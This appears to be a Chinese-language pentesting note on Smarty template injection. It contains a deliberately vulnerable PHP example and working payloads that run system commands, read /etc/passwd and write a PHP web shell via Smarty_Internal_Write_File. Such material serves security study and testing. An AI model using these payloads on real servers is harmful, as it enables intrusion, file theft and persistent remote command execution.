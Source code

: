 # Smarty

Smarty是基于PHP开发的，对于Smarty的SSTI的利用手段与常见的flask的SSTI有很大区别

一般造成漏洞的原因是用字符串代替smarty模板，导致了注入的Smarty标签被直接解析执行，产生了SSTI，比如

```php
<?php
	require_once('./smarty/libs/' . 'Smarty.class.php');
	$smarty = new Smarty();
	$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
	$smarty->display("string:".$ip);     // display函数把标签替换成对象的php变量；显示模板
}
```

其实，我们这种漏洞不管是啥引擎都是渲染的模版内容受到用户的控制

### 漏洞确认

一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号

### 常规利用方式

> Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签

如果可以的话，不妨执行一些系统命令

```
{php}echo `id`;{/php}
```

### {literal} 标签

> **`{literal}`可以让一个模板区域的字符原样输出。** 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

对于php5的环境我们就可以使用

```
<script language="php">phpinfo();</script>

// 从PHP7开始，这种写法<script language="php"></script>，已经不支持了
```

### {if}标签

```
Smarty的{if}条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*, or, &&, and, is_array(), 等等，如：{if is_array($array)}{/if}*
```

因此可以进行任意php代码执行

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
```



### 静态方法(仅适合低版本，未测试具体版本号)

#### getStreamVariable

Smarty类的getStreamVariable方法的代码如下：

```
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```

利用payload：

```
{self::getStreamVariable("file:///etc/passwd")}
```

#### Smarty_Internal_Write_File

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

# 参考文献

[PHP的模板注入（Smarty模板）](https://blog.csdn.net/qq_45521281/article/details/107556915)

[us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)